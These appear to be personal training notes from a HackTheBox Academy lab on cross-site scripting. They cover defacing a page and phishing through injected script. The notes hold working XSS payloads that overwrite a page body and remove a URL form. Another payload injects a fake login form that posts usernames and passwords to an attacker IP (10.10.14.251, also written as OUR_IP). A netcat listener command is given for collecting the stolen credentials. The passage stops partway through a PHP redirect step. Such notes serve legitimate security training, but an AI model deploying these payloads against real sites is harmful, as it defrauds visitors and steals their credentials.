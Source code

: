 ##### Changing Page content / Body

- change complete website body

```html
<script>document.getElementsByTagName('body')[0].innerHTML = "New Text"</script>
```


```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```

## Phishing

- sending their sensitive information to the attacker
- through forms

**Example**: 

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

![[Pasted image 20240608152532.png]]


- still url text box is showing we can remove by DEFACING
- we can do this by `document.getElementById().remove()`
- find id using inspector in web dev tools
- to remove url box our payload looks like

```js
document.getElementById('urlform').remove();
```

- our complete payload looks like 


```html
<script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.251><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script>
```
#### Credential stealing

- we setup front end ... where to recice the creds entered by victim

```shell
sudo nc -lvnp 80
```

-  this would make victim to find it is phishing because it shows unable to connect
- so we write a php code that handle the request and redirects to image viewrer page
